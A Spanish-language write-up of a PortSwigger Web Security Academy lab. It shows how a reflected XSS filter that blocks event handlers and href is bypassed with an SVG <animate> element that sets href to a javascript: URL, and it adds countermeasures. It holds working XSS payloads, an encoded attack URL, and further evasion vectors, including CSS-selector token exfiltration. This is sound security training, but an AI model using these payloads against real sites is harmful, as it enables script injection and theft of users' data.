

# Writeup: Reflected XSS with event handlers and href attributes blocked (PortSwigger)

- **Lab**: Reflected XSS with event handlers and href attributes blocked
- **URL**: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked
- **Categoría**: XSS / Reflected / Contextos / SVG `<animate>` attribute injection
- **Dificultad**: Practitioner

---

## 1. Objetivo

XSS reflejado en `?search=` sobre el HTML body. El reto introduce dos restricciones que cierran las rutas más obvias:

- Algunos tags están en una whitelist (puedes inyectar `<svg>`, `<a>`, etc.); otros están bloqueados.
- **Todos los event handlers HTML** (`onclick`, `onload`, `onmouseover`, `onerror`, `onfocus`, ...) están bloqueados.
- El **atributo `href`** en cualquier `<a>` también está bloqueado cuando se escribe directamente.

Adicional: el bot del lab no se limita a "visitar la URL". El bot **simula un usuario que hace click en cualquier elemento que contenga la palabra "Click"**. El payload tiene que (a) renderizar texto que diga "Click" y (b) ejecutar JS cuando el bot lo clickee. Sin click no hay solve.

---

## 2. Honesty check sobre la metodología

La descripción del lab lista los filtros explícitamente. En un engagement real esa lista no existe: hay que descubrirla con sondeos atómicos. Lo metodológicamente correcto es probar carácter/tag a carácter/tag y construir la tabla de filtros desde cero:

```
?search=<b>x</b>           → ¿se renderiza? Si sí, <b> está en whitelist.
?search=<svg></svg>        → ¿pasa svg?
?search=<a>x</a>           → ¿pasa a?
?search=<a href=x>x</a>    → ¿qué pasa con href?
?search=<svg onload=x>     → ¿qué pasa con onload?
?search=<b onclick=x>x     → ¿qué pasa con onclick específicamente?
```

Cada sondeo confirma o refuta una hipótesis. El cruce de las respuestas reproduce la tabla que el lab nos dio gratis. En este writeup damos por buena la lista del lab para no inflar el documento, pero la lección operacional para el siguiente lab que NO la liste es: hacer ese mapeo manual antes de buscar payloads.

---

## 3. Por qué los caminos clásicos no sirven

Con la lista de bloqueos:

```html
<!-- BLOQUEADO: onclick -->
<a onclick="alert(1)">Click me</a>

<!-- BLOQUEADO: onload (handler) -->
<svg onload=alert(1)>Click me</svg>

<!-- BLOQUEADO: cualquier on* -->
<button onmouseover=alert(1)>Click me</button>

<!-- BLOQUEADO: href= directo -->
<a href="javascript:alert(1)">Click me</a>

<!-- BLOQUEADO: href= aunque cambie el case -->
<a HREF="javascript:alert(1)">Click me</a>

<!-- BLOQUEADO: href= con encoding HTML -->
<a &#104;ref="javascript:alert(1)">Click me</a>
```

Cualquier ruta que pase por un evento o por el atributo `href` escrito de cualquier forma reconocible está cerrada. El payload necesita un mecanismo donde **el atributo `href` aparezca en el DOM PERO no esté escrito como `href=...` en el HTML enviado**.

---

## 4. La grieta: SVG `<animate>`

El elemento `<animate>` es parte del namespace SVG (no HTML). Su función es animar un atributo del elemento padre durante un periodo de tiempo. La sintaxis típica es:

```html
<svg>
  <rect width="10">
    <animate attributeName="width" values="10;100;10" dur="2s" />
  </rect>
</svg>
```

Eso anima el atributo `width` del `<rect>` entre 10 → 100 → 10 durante 2 segundos.

La parte clave: `<animate>` puede animar **cualquier atributo del padre**, incluido `href`. Y el filtro del server inspecciona el HTML enviado buscando `href=...` literal o handlers `on*=...`. Una declaración `<animate attributeName="href" values="javascript:alert(1)" />` no contiene ni un `href=` ni un `on*=` en el HTML literal: ambos atributos del `<animate>` se llaman `attributeName` y `values`.

**Resumen del bypass**: el filtro inspecciona el wire format pero no entiende la semántica de SVG animation. El `href` aparece en el DOM en runtime (cuando la animación se ejecuta) pero NO en el HTML que el filtro vio.

---

## 5. Payload final

```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>
```

Estructura:
- **`<svg>`**: contenedor del namespace SVG. Está en whitelist.
- **`<a>`**: dentro de SVG es el elemento `<a>` SVG (no el HTML `<a>`). Tiene atributo `href` (en SVG, históricamente `xlink:href`, pero los browsers modernos aceptan `href` plain). Es clickeable.
- **`<animate attributeName=href values=javascript:alert(1) />`**: anima el atributo `href` del `<a>` padre fijándolo al valor `javascript:alert(1)`. Sin `dur=` y sin `from=`/`to=`, el SVG fija el atributo al primer valor de `values=` desde el momento 0 y lo mantiene.
- **`<text x=20 y=20>Click me</text>`**: el texto visible que el bot va a clickear. Tiene la palabra "Click" para activar al bot; las coordenadas `x=20 y=20` lo hacen visible (sin coordenadas algunos renderers lo posicionan fuera del viewport).

URL final:

```
https://<lab-host>.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick+me%3C%2Ftext%3E%3C%2Fa%3E%3C%2Fsvg%3E
```

---

## 6. Resolución

1. Cargué la URL anterior en el navegador.
2. Vi un texto "Click me" renderizado dentro del SVG. (Si haces click tú mismo, salta `alert(1)` y verifica el payload.)
3. PortSwigger ejecuta el bot autónomo que clickea elementos con "Click" → bot dispara el `javascript:alert(1)` → lab marcado como **Solved**.



---

## 7. Resumen de la cadena

```mermaid
flowchart TB
    A[1. Reflejo en HTML body, parametro search]
    B[2. Filtros: whitelist de tags, todos los on* bloqueados, href= directo bloqueado]
    C[3. Rutas clasicas todas cerradas]
    D[4. Observacion clave: SVG animate puede setear atributos del padre]
    E[5. attributeName=href values=javascript:alert(1) escribe href via animacion]
    F[6. El filtro no lo detecta porque href no aparece como atributo literal]
    G[7. Bot del lab clickea texto Click me, navega al href animado javascript:]
    H[8. alert dispara, lab solved]

    A --> B --> C --> D --> E --> F --> G --> H
```

Tres ideas para llevarse:

1. **Filtros que inspeccionan el wire format pueden ser bypasseados con sintaxis donde el atributo prohibido no aparece en el wire**. SVG `<animate>` es un caso. CSS injection con `attr()` es otro. Cualquier mecanismo donde el navegador construye un valor de atributo en runtime a partir de declaraciones que el filtro no entiende escapa al matching.
2. **SVG es un sub-lenguaje XML completo dentro de HTML**, con su propio namespace, sus propios elementos (`<animate>`, `<set>`, `<use>`), y atributos que se comportan distinto al HTML análogo. Cuando un filtro de XSS solo conoce HTML y deja pasar `<svg>`, has expuesto un superset. Vectores típicos: `<animate>`, `<set>`, `<use href>`, `<foreignObject>` (que mete HTML dentro de SVG).
3. **El bot que "clickea Click"** es una invitación a vectores que necesitan interacción. En la mayoría de labs anteriores el bot solo cargaba la página (suficiente para `onload`/`onerror`). Aquí necesitamos navegación activa, por eso el target es `<a>` con `javascript:` URL en lugar de `<svg onload=>`. Reconocer la diferencia "el bot solo carga" vs "el bot clickea texto X" determina qué tipo de payload es válido.

---

## 8. Contramedidas

Defensas en orden de robustez:

1. **Sanitización HTML basada en parser semántico, no en regex sobre wire format**. Un sanitizador que parsea el HTML y aplica allowlist de tags + atributos en el DOM resultante (DOMPurify, OWASP Java HTML Sanitizer) bloquearía el `<animate>` o, si lo permite, bloquearía atributos peligrosos (`attributeName=href`) en el árbol resultante. La defensa con regex sobre el HTML literal pierde porque la composición SVG genera atributos que no aparecen literalmente.
2. **Whitelist de tags conservadora**: si la app no necesita SVG inyectable por el usuario, no incluirlo en la lista. El espacio de ataque de SVG (animate, foreignObject, use href, etc.) es enorme y mal documentado. Cuando se pueda, prohibir `<svg>` en contenido user-generated es la decisión más simple.
3. **Content Security Policy con `script-src` estricto** que prohíba `javascript:` URLs vía la directiva `navigate-to` (CSP nivel 3) o vía `frame-src`/`object-src` según contexto. Reduce el impacto si el bypass tiene éxito en otros vectores.
4. **`X-Content-Type-Options: nosniff`** y respuestas con `Content-Type: text/html; charset=utf-8` correctamente serializadas para que el browser no interprete el contenido en otro modo (mXSS via content sniffing).
5. **Aislamiento del origen donde se renderiza contenido user-generated**: subdominio separado con su propia CSP, cookies con `SameSite` para impedir que el contenido user-generated llame a APIs autenticadas del dominio principal.

### Anti-patrón frecuente

Confiar en blocklists de strings. "Bloqueamos `onclick`, `onload`, `href=`" es un blocklist; la lista de cosas peligrosas en HTML es enorme y crece con cada nueva spec. SVG, MathML, custom elements, web components — cada uno trae nuevos vectores. Allowlist + parser semántico es estructuralmente más seguro que blocklist + regex.

---

## 9. Lección general: sub-lenguajes embebidos

Si el lab anterior (`reflected-xss-js-template-literal-escapes`) enseñó que **un string puede tener su propio sub-lenguaje** (interpolación de template literals), este lab enseña que **HTML aloja sub-lenguajes con su propia semántica de atributos**. SVG es uno; MathML otro; `<style>` con CSS es otro; `<script>` con JS evidentemente otro.

El filtro tiene que entender cada uno de esos sub-lenguajes para protegerse. Un filtro que solo mira "atributos HTML peligrosos en el wire" deja pasar:
- `<animate attributeName=href values=javascript:...>` (SVG)
- `<style>input[name=csrf]:not([value^="a"])~*{display:none}</style>` (CSS attribute selectors para exfil)
- `<math href="javascript:alert(1)">click</math>` (MathML link, en algunos browsers)
- `<iframe srcdoc="<script>alert(1)</script>">` (HTML embedded as attribute value)

Heurística operacional al ver una whitelist agresiva: identificar qué namespaces o sub-lenguajes deja pasar y revisar qué construcciones esos sub-lenguajes permiten que produzcan atributos o ejecución sin escribir literalmente las palabras prohibidas.

---

## 10. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Reflected XSS with event handlers and href attributes blocked*. https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked
- W3C. (2018). *Scalable Vector Graphics (SVG) 2 — The 'animate' element*. https://www.w3.org/TR/SVG2/animate.html#AnimateElement
- W3C. (2018). *SVG 2 — Linking with the 'a' element*. https://www.w3.org/TR/SVG2/linking.html#AElement
- PortSwigger Research. (s.f.). *XSS cheat sheet — SVG animate*. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- OWASP Foundation. (s.f.). *XSS Filter Evasion Cheat Sheet*. https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md) — sección de filtros y bypasses cubre allowlist tag-based.
- Writeup propio: [`learning/portswigger/reflected-xss-js-template-literal-escapes/writeup.md`](../reflected-xss-js-template-literal-escapes/writeup.md) — lab anterior sobre sub-lenguaje embebido (template literal dentro de string), patrón análogo a SVG dentro de HTML.
